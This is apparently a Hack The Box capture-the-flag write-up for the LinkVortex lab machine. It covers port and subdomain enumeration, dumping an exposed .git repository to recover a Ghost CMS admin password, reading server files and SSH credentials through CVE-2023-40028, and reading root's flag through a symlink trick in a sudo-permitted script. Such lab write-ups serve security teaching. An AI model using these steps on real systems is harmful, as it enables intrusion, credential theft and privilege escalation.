 # LinkVortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.47`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
    |_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
    80/tcp open  http    Apache httpd
    |_http-server-header: Apache
    |_http-title: Did not follow redirect to http://linkvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts

Main page 

![image](https://github.com/user-attachments/assets/8d7b2112-786e-415a-9e20-4b45ad71107a)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -u http://linkvortex.htb`

      _|. _ _  _  _  _ _|_    v0.4.3                                                        
     (_||| _) (/_(_|| (_| )                                                                 
                                                                                            
    Target: http://linkvortex.htb/
    
    [13:17:08] Scanning:                                                                    
    [13:18:20] 301 -   179B - /assets  ->  /assets/                             
    [13:18:24] 301 -     0B - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp/
    [13:18:28] 301 -     0B - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp/    
    [13:18:28] 301 -     0B - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp/
    [13:18:38] 301 -     0B - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf/
    [13:18:50] 301 -     0B - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf/
    [13:18:50] 200 -   15KB - /favicon.ico                                      
    [13:18:55] 301 -     0B - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf/
    [13:19:03] 200 -    1KB - /LICENSE                                          
    [13:21:07] 200 -   121B - /robots.txt                                        
    [13:22:03] 200 -   527B - /sitemap.xml                                       

`/robots.txt`

![image](https://github.com/user-attachments/assets/0020976b-e733-4743-8ede-5e170b74f309)

`/ghost/`

![image](https://github.com/user-attachments/assets/0bd133c8-5ae1-4c5d-ba86-4da790dab444)


### Sub-Domain enumeration 

Using Ffuf 

    ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -mc 200

Find `dev` subdomain, so add to `/etc/hosts` and open!

    sudo echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts

![image](https://github.com/user-attachments/assets/14c6ca4d-0ac6-4bcd-8a89-efe73e401c4b)

### Directory enumeration

Enumerate the directories for dev.linkvortex.htb

`python3 dirsearch.py -u http://dev.linkvortex.htb`

          _|. _ _  _  _  _ _|_    v0.4.3
         (_||| _) (/_(_|| (_| )
        
        Scanning: 
        301 -   239B - /.git  ->  http://dev.linkvortex.htb/.git/        
        200 -   201B - /.git/config                                      
        200 -    73B - /.git/description
        200 -    41B - /.git/HEAD                                        
        200 -   874B - /.git/info/                                       
        200 -   240B - /.git/info/exclude
        200 -   868B - /.git/logs/                                       
        200 -   175B - /.git/logs/HEAD
        200 -   147B - /.git/packed-refs                                 
        200 -   869B - /.git/refs/
        301 -   249B - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
        200 -    3KB - /.git/                                            
        200 -    1KB - /.git/objects/                                    
        200 -    3KB - /.git/hooks/                                      
        200 -  691KB - /.git/index                                       
        403 -   199B - /cgi-bin/                                         
        200 -    2KB - /index.html                                       
        403 -   199B - /server-status                                    
        403 -   199B - /server-status/

We can find `/.git/` let's use GitHack

### GitHack

    python3 GitHack.py -u "http://dev.linkvortex.htb/.git/"

![image](https://github.com/user-attachments/assets/8ef7be29-cc87-4f12-be1e-812197554f84)

    cat dev.linkvortex.htb/ghost/core/test/regression/api/admin/authentication.test.js

![image](https://github.com/user-attachments/assets/392bec70-cd33-491b-84e9-3c28fc588b03)

Password:

    OctopiFociPilfer45

Open page linkvortex.htb/ghost/#/signin and try to login like `admin`

`admin@linkvortex.htb`:`OctopiFociPilfer45`

![image](https://github.com/user-attachments/assets/cf968a12-5b5e-4aff-8c24-20bc9a718fff)

![image](https://github.com/user-attachments/assets/12f1bff5-e807-4c1c-a129-d82507bf27bb)

We now know the version of the CMS `GHost`. 

It is `v5.58.0`, we can find this out using `Wappalyzer` or by reading `/.git/config`. 

![image](https://github.com/user-attachments/assets/11fc0e3c-fb2c-4e29-94f5-b45096abe554)

## Exploitation 

### CVE-2023-40028

CVE-2023-40028 is a vulnerability in Ghost CMS that allows arbitrary file reads through improper file handling. 

Find and clone the open POC for CVE-2023-40028.

    git clone https://github.com/0xyassine/CVE-2023-40028

Change `GHOST_URL` IP to our host!

    GHOST_URL='http://linkvortex.htb'

![image](https://github.com/user-attachments/assets/d37ecaa3-f736-437f-8b35-af95ec74a57d)

Run script

    ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45

And enter file name || path.

file> `/etc/passwd`

![image](https://github.com/user-attachments/assets/5439acf3-9f21-403f-8999-ce44c2a815dc)

If you remember we have a Dockerfile from GitHack, let's go through it.

![image](https://github.com/user-attachments/assets/7b18733b-1a23-4a25-a5c1-b8231b7f7545)

    var/lib/ghost/config.production.json

![image](https://github.com/user-attachments/assets/4cfac89a-a9ff-4194-b6ef-b53a0a2d5f6d)

Credentials `bob@linkvortex.htb`:`fibber-talented-worth`

    ssh bob@linkvortex.htb

![image](https://github.com/user-attachments/assets/b6e4fd1a-a7a8-4d10-896a-a246d6186afc)

### Get the user flag!

![image](https://github.com/user-attachments/assets/830f92a3-f1b1-4840-9368-8a7f568046df)

## Privilege Escalation

    sudo -l

![image](https://github.com/user-attachments/assets/51b37afb-2b3b-4723-92e9-b486756dc25a)

    cat /opt/ghost/clean_symlink.sh 

![image](https://github.com/user-attachments/assets/caeda757-c65d-4cf1-906d-ef0b40313c73)

    ln -s /root/root.txt text.txt
    ln -s /home/bob/text.txt image.png
    sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/image.png

### Get the root flag!

![image](https://github.com/user-attachments/assets/351d6592-b4d0-4c94-9d32-a22d21b6b6e2)
